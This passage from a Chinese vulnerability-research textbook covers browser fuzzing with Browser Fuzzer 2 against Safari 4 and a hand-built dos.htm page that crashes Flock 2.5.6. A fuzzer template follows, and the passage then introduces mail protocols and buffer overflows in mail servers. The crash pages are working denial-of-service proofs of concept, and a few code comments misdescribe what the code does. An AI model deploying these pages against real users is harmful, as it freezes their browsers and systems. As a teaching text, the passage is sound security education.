接着，打开 Safari 4 浏览器，在浏览器的地址栏中输入“http://127.0.0.1/html1.html”回车，Safari 4 浏览器将开始自动刷新，连续不断地打开待测试网页文件，如图6.29所示。

图6.29 使用 Safari 浏览器访问待测试网页文件网址

这个测试过程是不需要人工干预的，所以我们又可以去喝一杯茶轻松一下。在等待了一段时间后，我们发现 Safari 4 浏览器好像发生了错误，如图6.30所示。

我们曾在本书的第2章中见到过类似的画面，这是代表程序发生无法继续运行时给出的警告提示窗口。毫无疑问，一定是某一个待测试网页文件导致 Safari 4 浏览器发生了如此严重的错误。在 Safari 4 给出图6.30这个警告窗口的同时，我们通过屏幕最下方的 Safari 4 浏览器标题栏看到了此刻 Safari 浏览器打开的网页名称，如图6.31所示。

原来是 Safari 4 浏览器在打开 html1422.htm 这个测试网页文件的时候发生了错误。

图6.30 被测试的 Safari 浏览器发生了错误

图6.31 导致 Safari 浏览器发生错误的待测试网页文件名称

- **小贴士**：大家注意，在你测试过程中可能 Safari 4 浏览器在出错时显示的不是这个网页名称，这可能是由于 Browser Fuzzer 2 程序生成的待测试网页文件顺序与本书这里不一样导致。

从放置待测试网页文件的文件目录中找到 html1422.html 文件，发现这是一个大小有 19M 的网页文件，用记事本打开需要很长时间，其中的内容为：

```html
<html>
<head><meta http-equiv="refresh" content="1;url=html1423.htm"></head>
<gogc dir="/A/A/A/A/A/A/A/A/A/A/A/A/A/A/A/A/A/A/A/A...">
</html>
```

其中，dir 后面的“/A”有 20,000,000 个之多。

既然有测试网页文件导致 Safari 4 浏览器发生了错误，那么这个错误的具体原因又是什么呢？

利用 6.2.2 节中的方法，我们设置 OllyICE 程序为实时调试器，然后，重新运行 Safari 4 浏览器，在地址栏中输入 http://127.0.0.1/html1422.html，回车，等待一段时间后，我们发现 OllyICE 程序的窗口蹦出来了，如图6.32所示。

原来，html1422.html 这个测试网页文件导致 Safari 4 浏览器试图读取内存地址为 BBADBEEF 的数据内容，然而，BBADBEEF 这个内存地址是不存在的，所以 CPU 无法读取数据，从而导致 Safari 4 程序无法继续运行。

说得具体一点，在图6.32中，我们看到在程序发生错误之前，Safari 4 使用了一个名叫“fastMalloc”的函数，这个函数是一个分配内存的函数。由于 html1422.html 这个测试网页文件中 dir 这个属性值被修改为一个长度为 20,000,000 个字符组合的“/A”字符串，这么长的数据造成 Safari 4 利用 fastMalloc 函数分配内存时无法分配如此大的空间，于是最终导致 Safari 4 浏览器发生了严重的运行错误，给出了图6.30显示的那样警告窗口。与 6.2.2 节中演示的那个 IE6 浏览器的漏洞一样，我们这里利用 Browser Fuzzer 2 程序发现的这个错误也是一个能够造成 Safari 4 浏览器无法正常使用的拒绝服务漏洞。

- **小提示**：这里演示的 Safari 4 浏览器的拒绝服务漏洞是一个属于低危险的安全漏洞，这类安全漏洞对于普通的软件来说可能危害不够大，可以忽略不计。但是，对于浏览器软件来说，由于其使用人群广泛，一旦在一个著名的网站中放入能够导致某种浏览器发生崩溃的代码，那么所有使用这种浏览器的用户都无法访问这个著名网站，用户就会开始抱怨这种浏览器不好使用，从而转向使用其它浏览器软件，大大影响了浏览器开发商的市场占有率。所以，一般来说，浏览器的拒绝服务漏洞对浏览器开发商来说还是具有一定安全意义的。

### 6.4 扩展 bf2.pl 程序

通过上面这个案例，我们学习到了如何利用 Browser Fuzzer 2 程序挖掘浏览器软件的安全漏洞。可以看出，Browser Fuzzer 2 程序可以非常快速地帮助我们挖掘出浏览器软件可能存在的安全漏洞。只要你的计算机硬盘足够大，Browser Fuzzer 2 程序能够产生足够多的待测试网页文件来实现对浏览器软件的自动化安全测试。

图6.33：Browser Fuzzer 2 程序提供了多种测试模式

其实，在使用 Browser Fuzzer 2 程序的时候，我们如果在命令行窗口下，只键入“bf2.pl”这个命令，你会发现，Browser Fuzzer 2 程序提供了不止一种测试浏览器安全漏洞的方式，如图6.33所示。

Browser Fuzzer 2 程序提供了四种测试浏览器软件安全漏洞的方式，“phase one”代表对 CSS 的 Fuzz 测试；“phase two”是对 DOM 对象的 Fuzz 测试；“phase three”就是我们上面案例中演示的，针对 HTML 语言的 Fuzz 测试；“phase four”是对 JavaScript 语言的 Fuzz 测试。在调用 Browser Fuzzer 2 程序的时候，在参数 p 后面跟上不同的数字就可以针对不同的方式进行对浏览器的安全测试。在这些测试中，我们最为常用的就是针对 HTML 语言的 Fuzz 测试，也就是在参数 p 后面加上数字 3。我们在上面的案例演示中就是这样做的。

但是，要知道，HTML 这个标准是在发展的，现在这个标准已经发展到了第五代，也就是 HTML5。在新的标准中，也出现了新的 HTML 标签，这就意味着，Browser Fuzzer 2 程序本身自带的那些被测试 HTML 标签已经不完全了，没有包含最新 HTML5 标准中出现的……新的 HTML 标签以及其属性。为此，我们就需要及时更新 Browser Fuzzer 2 程序，使其能够针对最新的 HTML 标签进行 Fuzz 测试。要实现这个目的，我们就需要扩展现有的 Browser Fuzzer 2 程序本身。要扩展现有的 Browser Fuzzer 2 程序方法很简单，下面给读者朋友们详细讲解下：

图 6.34 找到标识有“# HTML BEGIN”这段语句的一行。  
图 6.35 添加待测试 HTML 标签

首先，用 Windows 系统自带的记事本程序打开 Browser Fuzzer 2 程序的主文件 bf2.pl。找到标识有“# HTML BEGIN”这段语句的一行，如图 6.34 所示。从这里往下，一直到“# HTML END”之间，就是 Browser Fuzzer 2 程序所能够测试到的所有 HTML 标签。

如果我们现在要将新的 HTML 标签也加入到 Browser Fuzzer 2 程序的待测试 HTML 标签列表中，我们就需要在这里加入一段代码。假设，我们要加入的新的待测试 HTML 标签名为“newlable”，它有三个属性分别是 id、name、src。现在，我们就需要将这个新的待测试 HTML 标签加入到图 6.35 这里，如图 6.35 所示。

图 6.36 找到“if($phase == '3')”这句代码。

加入好后，我们需要向下找到“if($phase == '3')”这句代码，如图 6.36 所示。我们只是将新的待测试 HTML 标签加入到了待测试标签列表当中，但是还没有针对新的 HTML 标签写出测试语句。也就是说，我们现在如果不加入测试语句，那么 Browser Fuzzer 2 程序是不会自动针对新的待测试 HTML 标签生成待测试网页文件的。这段语句的加入方法如下所示：

```perl
print "[STAGE-> $i] Writing <newlable> ... fuzz data to $output\n";
foreach (@htmlnewlable) { $tag = 'newlable'; $attr = $_; ... }
foreach (@overflows)  { ... htmlcreate($output, $c, $htmlbegin, $refresh1, $refresh2, $tag, $attr, $fuzz, $htmlend); $c++; }
foreach (@fmtstring)  { ... }
foreach (@numbers)    { ... }

$htmlend = $c++;
foreach(@miscbugs) {
    $fuzz = $_;
    htmlcreate($output, $c, $htmlbegin, $refresh1, $refresh2, $tag, $attr, $fuzz, $htmlend);
}
$htmlend = $c + 1;
```

加好之后的效果如图 6.37 所示。  
图 6.37 加入新待测试 HTML 标签后的效果

很简单的两步工作，我们就将新的待测试 HTML 标签加入到了 Browser Fuzzer 2 程序当中。以后，如果发现新的 HTML 标准中出现了新的 HTML 标签，你就可以按照上面的方法，将新的 HTML 标签以及其属性加入到 Browser Fuzzer 2 程序的测试列表当中。这样一来，我们在使用 Browser Fuzzer 2 程序测试浏览器软件的漏洞的时候，就能够更加全面地完成测试，尤其是针对一些新版本的浏览器软件，更需要扩展 Browser Fuzzer 2 程序的测试范围，防止漏测现象发生。

## 6.5 手工挖掘 Flock web browser v2.5.6 Remote Crash 漏洞

通过前面的学习，我们明白了如何利用 Browser Fuzzer 2 程序来挖掘浏览器软件的安全漏洞。Browser Fuzzer 2 程序利用的思路就是针对网页开发语言中的各种属性值进行修改，将它们赋值为不同的数据，例如过长字符串或者过大的数字，甚至是一些比较特殊的文件路径等。然后，让被测试浏览器软件不断地打开这些被修改后的测试网页文件，同时监测在浏览器软件打开这些网页的过程中会不会发生程序运行错误或者其它现象，从而进一步分析出浏览器软件是不是存在可能的安全漏洞。

而我们在本章第 6.1 小节中还提到过一种利用随机组合 HTML 标签的方式来测试浏览器软件的安全漏洞，这种思路不同于 Browser Fuzzer 2 程序的测试思想。但是，利用这种思路，我们也能够挖掘出浏览器软件的安全漏洞，就像我们利用它发现了 Internet Explorer 6 浏览器的远程拒绝服务漏洞。

除了上面所说到的两种漏洞挖掘思路，对于浏览器软件来说，还有一种漏洞挖掘的方法，这就是针对 HTML 标签作用范围的测试。

对于 HTML 标签来讲，我们其实可以将它们划分为两个大类：一种叫做“独立作用的 HTML 标签”。例如，“`<br>`”这个 HTML 标签，它的意义就是一个换行。我们即使在“`<br>`”这个 HTML 标签的后面加上任意数据，对于“`<br>`”这个 HTML 标签来讲都没有任何意义，它依旧还是表示一个换行符。

与“`<br>`”这种标签不同，另外一种 HTML 标签则主要是用来修饰跟随标签后的数据信息的。例如，“`<b>`”这个 HTML 标签的意义是一个用来加粗的标签，如果在其后跟上数据，它则会将这些数据加粗后显示在浏览器中。我们称这类 HTML 标签为“带有作用范围的 HTML 标签”。

“带有作用范围的 HTML 标签”主要是为了修饰网页中的文字、图片等信息。HTML 标签以跟随在其后的数据当做其被修饰的对象，也就是范围。这种关系可以利用一张图来表示，如图 6.38 所示。

例如，“`<b>aaa</b>`”这段网页代码中，“`<b>`”这个 HTML 标签将紧随其后的“aaa”当做被修饰对象，浏览器在解析这段网页代码时，就会把“aaa”进行加粗后显示，效果如图 6.39 所示。

了解了“带有作用范围的 HTML 标签”的意义，我们现在就有了一个新的漏洞挖掘思想。既然“带有作用范围的 HTML 标签”会将其后的数据当做其作用范围，而这些被当做作用范围的数据是可以被我们任意修改的，如果我们将这些数据修改为过长或者过大的特殊数据，那么，浏览器在解析这些“带有作用范围的 HTML 标签”时，会不会因为标签作用范围内的数据太特殊而导致出现一些安全漏洞呢？

下面，我们将结合一个实际案例来检验一下我们的想法是不是正确。我们这一次测试的软件环境如下所示。

| 项目 | 内容 |
|---|---|
| 操作系统 | Windows XP SP2 32 位版本 |
| 漏洞利用工具运行环境 | IIS 5.1 |
| 漏洞测试目标软件 | Flock web browser v2.5.6 |

Flock web browser 浏览器是国外一款著名的浏览器软件，我们这里测试的是它的 2.5.6 版本。

首先，我们正确安装 Flock web browser v2.5.6 浏览器到自己的操作系统当中，然后，我们需要建立一个测试网页文件，该测试网页文件的代码如下：

```html
<body onload="javascript:Dos()">
</body>  <!-- 在打开网页时调用 Dos 函数 -->

<script>
function Dos() { // 定义 Dos 函数
    var buffer = 'A'; // 定义 buffer 变量
    for (i = 0; i < 31137; i++) {
        buffer += buffer + 'A'; // 将 buffer 变量赋值为一个由 31137 个字母 A 组成的字符串
    }
    document.write('<html><marquee><h1>' + buffer + buffer);
    // 将 buffer 变量结合特殊的 HTML 标签后利用 document.write 函数打印到浏览器当中
}
</script>
```

代码开始的时候，利用“onload”这个事件来调用 Dos 函数。这是什么意思呢？我们知道，“`<body>`”这个 HTML 标签所代表的意思是指网页的内容部分，当浏览器加载一个网页的时候，加载到网页的 HTML 标签时，它就会触发一个加载事件，这个事件会被“onload”这个属性值获得。而“onload”这个属性值是可以用来执行脚本代码的，为此，就可以利用 JavaScript 语句来调用 Dos 函数。

接下来看一看 Dos 这个函数，因为这个函数是我们这次测试漏洞的关键代码。Dos 函数一开始，创建了一个变量名字为“buffer”，变量初始值为一个字母 A。紧接着，Dos 函数利用“for”这个语句产生一个循环，这个循环的次数为 31137 次，每一次循环中，Dos 函数将会给“buffer”变量加上一个字母 A，然后，再将“buffer”变量作为 HTML 标签“`<marquee><h1>`”的作用范围，通过 document.write 函数打印出来让浏览器解析。

请大家注意，“`<marquee>`”这个标签的意思是指将该标签随后文字滚动起来，而“`<h1>`”这个标签的意思是指将随后的文字按照级别 1 的标题样式来显示。这两个标签都属于“带有作用范围的 HTML 标签”。

Dos 函数利用循环不断地递增“buffer”变量的字节长度，那么，“`<marquee><h1>`”这两个标签在修饰“buffer”变量时，其作用范围也会因为“buffer”变量的长度而同时增加。在循环的后期，“buffer”变量的长度将会超过 1 万个字节，那么浏览器在依据“`<marquee><h1>`”这两个标签的意义来处理如此之长的“buffer”变量时，会不会发生意想不到的安全漏洞呢？

将上面的测试代码保存为 dos.htm，将其放置到 IIS 的 Web 目录当中，然后，我们启动 Flock web browser v2.5.6 浏览器，在其地址栏中键入 `http://127.0.0.1/dos.htm` 后回车。此刻，你会发现 Flock web browser v2.5.6 浏览器似乎一直在试图打开我们的 dos.htm 文件，如图 6.40 所示。

图 6.40 打开 dos.htm 文件后 Flock web browser v2.5.6 浏览器失去了响应

当我们用鼠标点击了一下 Flock web browser v2.5.6 浏览器的窗口时，Flock web browser v2.5.6 浏览器的上方竟然出现了“没有响应”的字眼！其实这个时候，你会发现自己的计算机似乎开始变慢。我们连忙按下 Ctrl+Alt+Del 组合键，调出系统的“任务管理器”来看一看究竟系统此刻在忙什么，如图 6.41 所示。

在“任务管理器”中，我们终于找到了系统此刻变慢的罪魁祸首，原来就是 Flock web browser v2.5.6 浏览器的进程 flock.exe！在图 6.41 中，我们可以明显地看到，flock.exe 进程此刻内存使用的大小为三百六十多兆。对比其它进程，flock.exe 进程的内存使用已经远大于其它任何一个进程的内存使用大小，难怪我们的系统会变得如此缓慢。而且，你会发现，flock.exe 进程的内存使用大小还在不断地增加，系统变得越来越缓慢，不可忍受的缓慢。

图 6.41 Flock web browser v2.5.6 浏览器占用了大量的内存

此刻，你甚至都想要直接关机，重新启动计算机。且慢，其实，你现在已经发现了一个安全漏洞，这就是 Flock web browser v2.5.6 浏览器的一个远程拒绝服务漏洞！

Flock web browser v2.5.6 浏览器的这个远程拒绝服务漏洞是在解析带有作用范围的 HTML 标签“`<marquee><h1>`”组合时，由于处理的数据大小长度过长，浏览器将会向系统申请大量的内存来完成对数据的修饰。为此，造成系统内存消耗过大，引发浏览器软件本身停止响应，同时，造成系统发生假死现象。

通过这个案例，证明了我们前面的漏洞挖掘思路是正确的。对于“带有作用范围的 HTML 标签”而言，我们可以通过给这些标签创建过长或者过大的数据，当浏览器试图按照“带有作用范围的 HTML 标签”来解析这些数据时，就很有可能造成浏览器软件发生诸如拒绝服务或者缓冲区溢出等类型的安全漏洞。

我们用来测试 Flock web browser v2.5.6 浏览器的 dos.htm 网页代码，其实可以作为一个通用的漏洞挖掘测试模板代码。通过修改其中的“`<marquee><h1>`”这两个 HTML 标签组合为其它的“带有作用范围的 HTML 标签”，我们就可以挖掘其它浏览器软件的安全漏洞。我们甚至可以结合本章开始部分教给大家的编写自己的 HTMLFuzz 的方法，来实现针对这种漏洞挖掘思想的自动漏洞测试代码，这个内容我们将作为本章课后的实践题来让大家自己动手完成。

最后，本章中我们结合三种不同的漏洞挖掘思路，向大家展示了对于浏览器软件的安全漏洞应当从哪里入手来进行安全测试。主要的入手点还是针对网页代码，因为浏览器最重要的工作就是处理和解析网页文件中的网页代码。

三种不同的思路都可以实现对浏览器软件安全漏洞的挖掘工作，大家在实际测试过程中，可以按照这三种思路逐步进行测试。不要将思路仅仅锁定在一种测试模式上。不要只针对浏览器进行缓冲区溢出或者拒绝服务漏洞的测试，可以修改网页代码为一些特殊的数据，如文件名，或者系统命令等。因为通过这种修改，我们可能会发现让浏览器读取系统文件或者执行系统命令的安全漏洞，这些安全漏洞的危害性不亚于缓冲区溢出或者拒绝服务漏洞。

### 思考题

- 1. 通过本章的内容，针对浏览器软件，我们学习到了哪三种不同的漏洞挖掘思想？
- 2. 我们自己编写的 HTMLFuzz 程序，利用了什么原理来使得被测试浏览器软件能够自动不断地进行测试？
- 3. Browser Fuzzer 2 程序利用了什么代码使得浏览器软件能够连续不断地打开 Browser Fuzzer 2 程序生成的被测试网页文件？
- 4. Browser Fuzzer 2 程序是不是只能够挖掘出浏览器软件的缓冲区溢出漏洞或者拒绝服务漏洞？
- 5. Browser Fuzzer 2 程序的不足之处在哪里？通过什么方法能够弥补 Browser Fuzzer 2 程序的这个不足？

### 实践题

- 6. 针对本章第三种漏洞挖掘思想，如何编写出自动化的漏洞测试代码？

### 答案

- 1. 三种不同的漏洞测试思想分别为：随机组合的 HTML 标签测试方法；针对网页脚本代码的属性值进行测试的方法；以及对“带有作用范围的 HTML 标签”的漏洞测试方法。
- 2. 我们自己编写 HTMLFuzz 程序利用了网页脚本函数 setInterval，设定一个定时器来不断重置浏览器当前访问网址，实现不间断地生成 HTML 标签的随机组合，从而测试出浏览器软件的安全漏洞。
- 3. Browser Fuzzer 2 程序利用了在生成的待测网页中加入 `<meta http-equiv="refresh" content="1; uri=htmlxxxx.html">` 这样的代码，来让浏览器在打开当前测试网页 1 秒钟后自动转向打开 uri 属性所指的下一个待测网页文件；并且，Browser Fuzzer 2 程序生成的待测网页文件的名称是连续数字编号的，从而实现了让被测试浏览器软件能够连续不断地打开 Browser Fuzzer 2 程序生成的被测试网页文件。
- 4. Browser Fuzzer 2 程序不仅仅能够挖掘出浏览器软件的缓冲区溢出漏洞或者拒绝服务漏洞，它还可以发现一些比较特殊的浏览器安全漏洞。因为 Browser Fuzzer 2 程序生成的待测网页文件中不仅仅包含过长或者过大的数据，还包含有特殊文件路径或者系统命令这样的测试数据，从而试图测试浏览器在打开这些网页文件时，会不会调用其它文件或者执行系统命令，这都属于浏览器的安全漏洞。
- 5. Browser Fuzzer 2 程序的不足之处在于无法自动更新待测试的网页脚本代码。例如，对于 HTML 语言来说，这个标准是不断变化的，新的 HTML 标签在 Browser Fuzzer 2 程序中是没有的。为此，要想更加全面地测试浏览器的安全漏洞，我们需要在 Browser Fuzzer 2 程序中手工添加新出现的 HTML 标签。
- 6. 针对本章第三种漏洞挖掘思想，要想编写出自动化的漏洞测试代码其实很简单，主要是将 HTML 标签中属于“带有作用范围的”一类 HTML 标签挑选出来，然后就可以随机组合这些 HTML 标签来进行漏洞测试了。代码可以参考下面（注意，“//”符号后的是注释）。

```html
<script>
function num(){
    var num=0;
    var ran=Math.random();
    if(ran==0) num=0;
    if(ran<0.1) num=1;
    if(0.1<ran&&ran<0.2) num=2;
    if(0.2<ran&&ran<0.3) num=3;
    if(0.3<ran&&ran<0.4) num=4;
    if(0.4<ran&&ran<0.5) num=5;
    if(0.5<ran&&ran<0.6) num=6;
    if(0.6<ran&&ran<0.7) num=7;
    if(0.7<ran&&ran<0.8) num=8;
    if(0.9<ran&&ran<1) num=9;
    return num;
}

function doit(){
    // ...
}
</script>
```

```javascript
var tag0=Array("<q>","<strike>","<title>","<wbr>","<nobr>","<param>","<style>","<optgroup>","<base>");
var tag1=Array("<big>","<b>","<code>","<dt>");
// 这里来挑选出带有作用范围的HTML标签作为被测HTML标签
var nums = 4;
var num0, num1;

num0=num();
num1=num();
var htms=tag0[num0]+tag1[num1];
// 这里就是随机组合带有作用范围的HTML标签，其实，也可以单独测试某一个带有作用范围的HTML标签

document.write("<iframe width=0 height=0 src=\"www.asp?htm="+htms+"\"></iframe>");
// 利用www.asp文件保存本次生成的随机组合带有作用范围的HTML标签

var buffer = "A";
for(i=0; i<31137; i++){
  buffer += buffer + "A";
  document.write(htms+buffer+buffer);
}
// 利用循环开始不断改写本次带有作用范围的HTML标签组合的作用范围，从而测试出浏览器在处理这样的代码时会不会发生诸如缓冲区溢出或者拒绝服务类型的安全漏洞

doit();
setInterval(function(){window.location=new String("http://192.168.1.1/htmlfuzz.htm")},60000);
// 将刷新时间设定为60秒，目的是因为上面的循环可能需要一定的时间，不过，我们可以取消上面的循环，而直接将buffer变量设为一个过长的字符串，这样就可以设定刷新时间可以快一点。这段自动化测试代码是一个样例，大家可以根据实际测试来进行更好地优化。
</script>
```

## 第7章 邮件服务程序的漏洞挖掘技术

从本章开始，我们将开始学习如何挖掘网络软件安全漏洞的专题课程。网络软件的安全漏洞是非常可怕的，因为一旦某个网络软件出现安全漏洞，恶意攻击者就可以借此漏洞远程入侵用户主机或者网络服务器，从而实施异地窃取机密信息等计算机犯罪行为，危害社会国家安全。

对于网络软件来说，最为常用的两类软件就是电子邮件服务程序以及FTP服务程序，为此，我们将利用两章的内容来向读者展示如何挖掘电子邮件服务程序和FTP服务程序的安全漏洞。这些具体的挖掘方法堪称是经典的网络软件安全漏洞挖掘技术，读者在学习的同时，可以扩展思路将这些方法用在针对其它类型的网络软件安全漏洞挖掘工作上。

### 7.1 邮件服务程序的发展历程

#### 7.1.1 纯粹的邮件服务

“你有E-Mail吗？”很多时候，当有人想通过互联网联系我们的时候，都会这样询问。

“E-Mail”其实就是电子邮件的英文表达，电子邮件可以说是互联网应用方面最为经典的一个服务。

当互联网将远隔千里之外的人们互相连接起来以后，电子邮件服务就开始为人们提供互相传递信息的机会。

一般来说，要使用电子邮件服务，你必须要有一个电子邮件地址，它的格式类似于这样“xxx@yyy”，其中，@这个符号代表汉字的“在”，而“@”符号之前的xxx一般是你的邮箱名，“@”符号之后则是电子邮件服务程序所在的地址。于是，“xxx@yyy”的意思就是说，在yyy这个地址上有一个名为“xxx”的邮箱。有了这个电子邮件地址，别人就可以将邮件发送到你的邮箱当中了。

初期的电子邮件服务采用了客户端（Client）/服务端（Server）模式。用户如果想要使用电子邮件服务，首先，他需要在自己的计算机中安装一个用来发送接收电子邮件的应用程序，这个一般被我们称作“邮件客户端软件”，也就是所谓的Client，英文的客户端。在这个邮件客户端软件中，我们设置好自己的电子邮件地址，以及自己登录电子邮件地址的密码，然后，设置好提供电子邮件服务的服务器所在地址信息。

具体讲，就是要设置好用来发送电子邮件的SMTP服务器地址，类似smtp.163.com，以及SMTP协议的端口，默认情况下是25号端口；接着，再设置好用来接收电子邮件的POP3服务器地址，类似pop3.163.com，以及POP3协议的端口，默认情况下是110号端口（关于这两个协议的概念，我们在接下来的内容中会进行解释）。这些服务器地址信息你都必须清楚，不然，你就无法正常使用你的电子邮件服务。有一些优秀的邮件客户端软件不需要用户来设置这些服务器地址，而是根据你的电子邮件地址自动识别你所需要的邮件服务器地址信息，从而大大方便用户的使用。其工作原理如图7.1所示。

一切设置完成，你就可以利用邮件客户端软件来进行邮件的发送与接收，其简单得就像在微软的Word程序中写文章一样。如图7.2所示。


### 7.1.2 Web Mail的出现

随着互联网技术的发展，浏览器成为了用户使用最为频繁的软件，为此，邮件服务开发者开始改进邮件服务的模式，这就是B/S模式。


由于浏览器软件访问的内容属于Web应用程序，E-Mail服务的开发者将Web应用程序结合到传统的电子邮件服务当中，用户现在使用E-Mail服务只需要用浏览器打开一个网址，像访问一个网页那样，输入自己的邮件地址和密码，就能够轻松地发送与接收电子邮件。这种模式的好处在于，用户不必为了接收发送邮件再安装什么额外的软件。

我们现在见到的大多数电子邮件服务就属于B/S模式，其中的字母B指的就是浏览器软件的英文单词Browser的首字母。例如网易163的邮件服务网址就是http://mail.163.com。


其工作过程如图7.3所示。

由于这种提供了Web访问形式的电子邮件服务深受用户喜爱，所以，我们又称这种以B/S模式工作的电子邮件服务为Web Mail服务。图7.4展示的就是一种利用浏览器来访问使用的Web Mail系统，如图7.4所示。


Web应用程序通过服务器上的邮件服务程序提供的组件，调用不同的函数接口，从而实现电子邮件的接收与发送。

Web应用程序可以由不同的Web服务语言开发，常见的Web Mail，都结合HTML语言以及ASP、PHP、JSP来编写实现。

下面就是来自于某邮件服务程序中Web Mail部分的ASP实现代码。

```asp
set mailsend = server.createobject("Webmail.Mail")  // 调用邮件服务程序组件
mailsend.createnew Session("wem"), Session("tid")   // 调用组件函数接口创建新邮件
mailsend.EM_Te6f = Request.Form("Te6f")
mailsend.SetForward trim(request("MailAddress"))    // 调用组件函数接口发送新邮件
```

> **小提示：**现在我们见到的很多E-Mail服务程序都不是单独提供一种工作模式，而是既提供对邮件客户端软件的支持，也提供对Web Mail的支持。提供Web Mail服务的E-Mail服务程序有些需要服务器安装相应的Web支持环境，例如Windows Server系统下的IIS，然后通过简单的配置，使得Web Mail正常工作。

### 7.2 邮件服务中的核心协议

### 7.2.1 SMTP协议

无论你使用邮件客户端软件，还是利用Web Mail去发送或者接收电子邮件，你都不会关心一封电子邮件究竟是怎样发送到远方朋友的电子信箱里，因为这其中的过程都已经被软件隐藏，目的就是降低计算机程序的使用难度，这在计算机专业领域中被称作“对用户的透明性”。

在使用邮件客户端软件发送或者接收一封电子邮件的时候，用户计算机上的客户端软件与远程的电子邮件服务器之间通过专门的语言进行数据传递工作，这种专门的语言我们称之为“协议”。（当然，Web Mail的工作机制与此处不同，这也就决定我们后面的漏洞挖掘也被区分为两个部分）。之所以要建立专门的协议，是为了统一规范，使得不同的邮件客户端软件能够按照一个模式来正常发送接收电子邮件，不然，每一种客户端软件只能够接收自己规定的电子邮件，用户岂不是每接收一种电子邮件就需要在自己的电脑上安装相应的邮件客户端软件，造成用户的使用不便。

用来发送电子邮件的协议被称之为“SMTP”协议。SMTP协议的全称是简单邮件传输协议，英文全称为Simple Mail Transfer Protocol。它是建立在TCP协议基础之上，采用明文的方式来传递邮件发送命令。这些具体的邮件发送命令被规定在一个国际标准当中，即RFC0821文档。

当处于用户端的邮件客户端软件想要向远程邮件服务器发送一封电子邮件的时候，它就必须使用SMTP协议，建立与远程邮件服务器25号端口（即SMTP协议工作端口）的数据连接。这个过程需要分为建立连接、传送邮件和释放连接3个阶段。具体过程为：

- 1. 建立TCP连接。
- 2. 客户端向服务器发送HELO命令以标识发件人自己的身份，然后客户端发送MAIL命令。
- 3. 服务器端以OK作为响应，表示准备接收。
- 4. 客户端发送RCPT命令。
- 5. 服务器端表示是否愿意为收件人接收邮件。
- 6. 协商结束，发送邮件，用命令DATA发送输入内容。
- 7. 结束此次发送，用QUIT命令退出。

在这个过程中，命令与数据信息都是明文显示的，同时，SMTP协议本身不具有身份认证功能，也就是说，任何人都可以利用SMTP协议向邮件服务器发送电子邮件。这样带来一个坏处就是垃圾邮件的产生，于是，后来又推出了SMTP-AUTH扩展，用来对用户身份进行认证。

### 7.2.2 POP3协议

与SMTP协议相对应，POP3协议是一个专门用来接收电子邮件的专用协议。POP3协议全称为邮局协议的第3个版本，英文全称为Post Office Protocol 3。它是因特网电子邮件的第一个离线协议标准，它允许用户从邮件服务器上把属于自己的电子邮件下载存储到本地主机（即自己的计算机）上。

POP3协议的默认工作端口是110号端口，也同样采用明文命令方式来传递电子邮件信息，其命令被规定在国际标准RFC1939当中。其工作模式与SMTP协议大体相同，首先是建立连接，然后是认证用户，最后是断开连接。需要注意的是，在POP3协议中有三种状态：认证状态、处理状态和更新状态。当用户的邮件客户端软件与邮件服务器建立连接时，邮件客户端软件向邮件服务器发送自己的身份（这里指的是邮箱账户和密码）并由服务器成功确认，随后邮件客户端软件由认证状态转入处理状态，在完成列出未读邮件等相应的操作后邮件客户端软件发出Quit命令，退出处理状态进入更新状态，这个时候，邮件服务器才会按照用户指定的命令来操作邮件。也就是说，在你成功登录邮件服务器之后，你选择删除一封电子邮件；此时，该电子邮件并没有被删除，而是被标记为已删除，等到你退出邮件服务器之后，邮件服务程序才会真正在服务器上删除你之前选择的那封电子邮件。

### 7.2.3 IMAP协议

IMAP协议全称交互式数据信息访问协议，英文全称为Internet Message Access Protocol。与POP3协议一样，都是用来接收处理电子邮件的协议，不过与POP3协议不同，POP3协议是将远程电子邮件服务器上的电子邮件下载到本地计算机上，而IMAP协议则支持用户直接操作远程电子邮件服务器上的电子邮件而无需下载到本地计算机上。

同时，IMAP协议扩展了POP3协议的功能，可以重命名电子邮件或者建立邮箱文件夹来分类存储电子邮件等等。IMAP协议也有离线下载电子邮件的功能，不过不同于POP3，它不会自动删除在邮件服务器上已取出的电子邮件。IMAP协议工作在143号端口上，也采用明文的命令方式来操作电子邮件。与POP3协议一样，IMAP协议采用身份认证方式来工作，用户必须输入正确的邮箱账户和密码信息后才能操作属于自己的电子邮件。

现在，最为常用的IMAP协议是IMAP4协议，即交互式数据信息访问协议的第四个版本。

### 7.3 传统漏洞的挖掘

一般来讲，邮件服务程序都是工作在单独的服务器系统上，如同网络上的Web服务器那样。在挖掘此类应用程序漏洞的时候，我们必须建立一个模拟的网络环境，来实现服务器与用户端计算机的区分，因为我们现在试图要发现的漏洞都属于远程漏洞，也就是说，利用这些漏洞，恶意攻击者可以实现在用户端的计算机上就能够完成对远程服务器的攻击。

要模拟一个网络环境，从硬件上来讲，至少我们需要两台计算机，这对于那些学校里有网络实验室的读者来说可能是比较容易的，但是，对于大多数只有一台计算机的读者来说，就需要利用虚拟机软件来帮助我们建立测试环境。

关于虚拟机的安装请参考本书第4章中的内容，这里不再赘述。唯一需要注意的是，我们应当将被测试的邮件服务程序安装在虚拟机当中，我们真实的系统作为用户端系统。这是因为，我们测试过程中可能会造成邮件服务程序所在的系统发生崩溃或者死机的错误，如果将我们自己真实的系统作为被测试环境，则会造成我们自己数据的丢失，而虚拟机系统坏了，最多只需要重装一下就好了。

同时，在我们安装有邮件服务程序的虚拟机系统中，我们最好安装上OllyICE程序。

### 7.3.1 Python脚本的利用

从上面7.2节中，我们看到，无论是SMTP协议还是POP3协议，或者是IMAP协议，这些协议的基本格式都可以看成是命令 + 数据的组合。协议的命令部分是固定的，不能随意修改。而数据部分则是邮件客户端软件根据用户输入的数据来分配的。如图7.5所示。

工作在服务器上的邮件服务程序，会从相应端口接收来自用户端的这些数据，在这个过程中，邮件服务程序如果没有对这些来自用户的数据进行认真检查，就会造成安全漏洞的发生。


最为常见的邮件服务程序安全漏洞就是传统的缓冲区溢出漏洞。

邮件服务程序在接收用户数据的过程中，没有对用户输入数据的长度加以限制，没有正确判断数据长度是否已经过长，而是直接将这些来自用户的数据放入到一个大小长度有限的内存空间当中，此刻就会造成缓冲区溢出。严重的缓冲区溢出漏洞会被恶意攻击者利用来实现远程向服务器上安装木马病毒程序，就算缓冲区溢出后，恶意攻击者不能成功利用该漏洞来执行ShellCode，邮件服务程序也会因为溢出错误而导致程序崩溃或者重启，造成用户无法正常使用电子邮件服务，即所谓的拒绝服务攻击。


